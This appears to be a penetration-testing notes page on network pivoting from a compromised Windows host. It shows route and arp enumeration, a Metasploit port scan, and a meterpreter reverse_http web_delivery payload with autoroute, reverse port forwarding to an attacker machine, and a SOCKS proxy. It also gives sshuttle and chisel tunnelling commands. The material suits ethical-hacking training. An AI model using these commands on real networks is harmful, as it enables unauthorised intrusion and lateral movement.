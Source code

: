 # Pivoting

## Metasploit

### Check routes on a win machine

- We need to see what other access has our target machine

- `route print`
  ```
  C:\Windows\system32>route print
  route print
  ===========================================================================
  Interface List
   12...08 00 27 ae c1 68 ......Intel(R) PRO/1000 MT Desktop Adapter
    1...........................Software Loopback Interface 1
  ===========================================================================

  IPv4 Route Table
  ===========================================================================
  Active Routes:
  Network Destination        Netmask          Gateway       Interface  Metric
            0.0.0.0          0.0.0.0     192.168.57.1        10.0.2.15     25
           10.0.2.0    255.255.255.0         On-link         10.0.2.15    281
          10.0.2.15  255.255.255.255         On-link         10.0.2.15    281
         10.0.2.255  255.255.255.255         On-link         10.0.2.15    281
          127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
          127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
    127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         10.0.2.15    281
    255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    255.255.255.255  255.255.255.255         On-link         10.0.2.15    281
  ===========================================================================
  Persistent Routes:
    None

  IPv6 Route Table
  ===========================================================================
  Active Routes:
   If Metric Network Destination      Gateway
    1    331 ::1/128                  On-link
   12    281 fe80::/64                On-link
   12    281 fe80::857:534f:3bb0:8fce/128
                                      On-link
    1    331 ff00::/8                 On-link
   12    281 ff00::/8                 On-link
  ===========================================================================
  Persistent Routes:
    None
  ```

- `arp -a`
  ```
  Interface: 10.0.2.15 --- 0xc
  Internet Address      Physical Address      Type
  10.0.2.3              08-00-27-35-94-d3     dynamic   
  10.0.2.4              08-00-27-fc-72-e9     dynamic   
  10.0.2.5              08-00-27-7f-90-90     dynamic   
  10.0.2.8              08-00-27-1d-d2-98     dynamic   
  10.0.2.255            ff-ff-ff-ff-ff-ff     static    
  192.168.57.1          52-54-00-12-35-00     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
  ```

- Now that we have other interesting IPs we can try to reach those new ones
- We can make a port scan on one of these IPs
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 10.0.2.5`
- `set ports 445`
- `run`
  ```
  [+] 10.0.2.5:             - 10.0.2.5:445 - TCP OPEN
  [*] 10.0.2.5:             - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```  
  We could of course have set more ports and this would be a cool nmap like tool.
  

## Reverse port forwarding and Session Passing with Metasploit having initial shell on Covenant

- We can assume that we have a shell with covenant for instance
- We generate a payload with metasploit through web delivery (more stealthy because it can pass as http traffic)
- `use exploit/multi/script/web_delivery`
- `set target 2` (for powershell)
- `set payload windows/x64/meterpreter/reverse_http`
- set lhost to your attacking machine
- sel an lport 
- `exploit -j`
- Now we can copy the payload and paste to our grunt in Covenant
- Metasploit should now have opened a session
- We can choose an interface with `ipconfig`
- `run autoroute -s 192.168.16.0/24`
- We can check it's been done using `run autoroute -p`
- We can now set up a reverse port forward
- `portfwd add -R -p 1234 -l 443 -L ATTACKING-MACHINE-IP`
- We can check it's been done using `portfwd`
- we can background our session with CTRL-Z 
- We will setup a socks proxy `use auxiliary/server/socks4a`
- We need to check our port in `/etc/proxychains4.conf`
- `set srvport 9050`
- we can check our jobs using `jobs`
- We can kill the web delivery one that we do not need anymore `jobs -k ID-OF-JOB`
- We now need to create a listener on covenant that will interact with the port forward set previously:
  `1      192.168.3.28:443  0.0.0.0:1234  Reverse`
- BindAddress can stay at 0.0.0.0, BindPort should be 443, connectPort should be 1234 and connect address is the ip of our victime machine.
- We should now be able to reach other machine in the network of the initial machine that has now route to our attacking machine using proxychains

## Shuttle

Let's say you got shell on a machine and this machine has access local to another (let's call it machine 2).
Shuttle will allow you to access machine 2 from your network and act as a proxy.  

```
sshuttle --listen 0.0.0.0 -e "ssh -i keyfile" -r user@IP-OF-YOUR-TARGET-MACHINE IP-OF-SUBNET-ACCESSIBLE-THROUGH-MACHINE2/24 -v
// example
sshuttle --listen 0.0.0.0 -e "ssh -i key" -r root@10.10.120.117 172.12.1.0/24 -v
```

## Chisel

- If you have a shell on a machine that has a local port open you can forward this port to your machine using chisel, it is called **port forwarding** for instance in our example we want to forward to listen the port 445 of the target machine that is open locally. You will then be able to intract from your kali on your port 445:

```
- On my kali `chisel server --reverse` (it is going to listen on port 8080)
- On the target `.\chisel.exe client KALI-IP:8080 R:445:127.0.0.1:445`
```

## Resources

{% embed url="https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/" %} Amazing Resource about pivoting but only in french, it could def be read using google translate {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} TCM Security Academy - Practical Ethical Hacking - The Complete Course {% endembed %}
